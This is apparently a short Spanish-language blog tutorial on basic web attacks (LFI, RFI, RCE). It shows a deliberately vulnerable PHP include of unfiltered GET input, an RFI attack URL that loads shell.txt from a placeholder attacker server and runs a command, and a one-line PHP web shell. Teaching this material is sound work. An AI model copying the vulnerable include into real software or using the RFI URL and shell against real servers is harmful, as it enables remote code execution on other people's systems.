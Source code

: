 ```yaml
---
layout: post
title:  "Aprendiendo a identificar los diferentes ataques basicos a nivel Web"
description: Aprendiendo sobre las Vulnerabilidades " LFI // RFI // RCE "
tags: Web Attacks
---
```

Empezaremos por aprender las principales Vulnerabilidades a nivel Web
  
1 ~ LFI ~   Local File Inclusion
2 ~ RFI ~   Remote File Inclusion
3 ~ RCE ~   Remote Code Execution

1.- La vulnerabilidad de Local File Inclusion se produce como consecuencia de un fallo en la programación de la página, filtrando inadecuadamente lo que se incluye al usar funciones en PHP para incluir archivos.
Para poder corroborar si un sitio es vulnerable, se puede colocar un valor ilógico a la variable. 
En nuestro ejemplo tenemos: "http://localhost/index.php?page=" donde se coloca un valor, en este caso http://localhost/index.php?page=78se3, algo aleatorio que no se encuentre registrado.
Si arroja un error como Warning: main()… o Warning: include()… o similar entonces es probable que sea vulnerable a RFI o LFI

{% LFI Codigo Vulnerable por Detras %}
<?php
include $_GET[‘pagina’];
?>
{% endhighlight %}


La vulnerabilidad de Remote File Inclusion se produce cuando:

Una página vulnerable que presente un aspecto similar a este en su URL:   " http://[servidor_victima]/index.php?page=plantilla.html "

El atacante (Nosotros) podriamos obtener una Shell en el servidor vulnerable mediante lo siguiente:

http://[servidor_victima]/index.php?page=http://[servidor_atacante]/shell.txt&&cmd=ls

Pudiendo contener el archivo shell.txt cualquier código, por ejemplo:
{% Codigo Malicioso %} 
<?php
  system($cmd);
?>
{% endhighlight %}
